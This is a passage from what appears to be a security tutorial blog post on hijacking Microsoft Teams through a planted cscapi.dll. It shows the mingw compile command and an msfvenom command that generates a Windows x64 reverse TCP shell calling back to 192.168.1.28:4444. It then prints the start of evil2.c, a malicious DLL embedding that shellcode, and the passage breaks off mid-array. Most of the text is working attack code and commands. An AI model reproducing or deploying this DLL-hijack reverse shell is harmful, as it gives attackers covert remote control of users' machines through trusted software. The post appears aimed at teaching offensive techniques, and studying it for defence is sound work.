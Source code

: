 Compiling the source code:       
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c cscapi.def -s
```

![compile malicious for ms teams](/assets/images/13/2021-10-12_14-59.png){:class="img-responsive"}    

Then naming the file "cscapi.dll" and placing it in the directory where Microsoft Teams is loaded from gives us a message popup when starting Microsoft Teams.      

![run MS teams with malicious dll](/assets/images/13/2021-10-12_15-07.png){:class="img-responsive"}    

After we close pop-up Microsoft Teams work correctly, not crashed:

![not crashed ms teams](/assets/images/13/2021-10-12_15-13.png){:class="img-responsive"}    

That's all!

### What about reverse shell?

Now that everything is working as expected, let's add some more advanced functionality to the DLL, which in turn will give us a reverse TCP shell whenever MS Teams is started.     

For simplicity we can just use msfvenom to generate our reverse shell shellcode:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.28 LPORT=4444 EXITFUNC=thread -f c
```

![msfvenom shellcode](/assets/images/13/2021-10-13_08-05.png){:class="img-responsive"}    

Update our malicious DLL with new one:           
```cpp
/*
evil2.c - malicious DLL with reverse shell payload
DLL hijacking with exported functions example
author: @cocomelonc
*/
#include <windows.h>

// msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.28 LPORT=4444 EXITFUNC=thread -f c
unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x01\x1c\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
```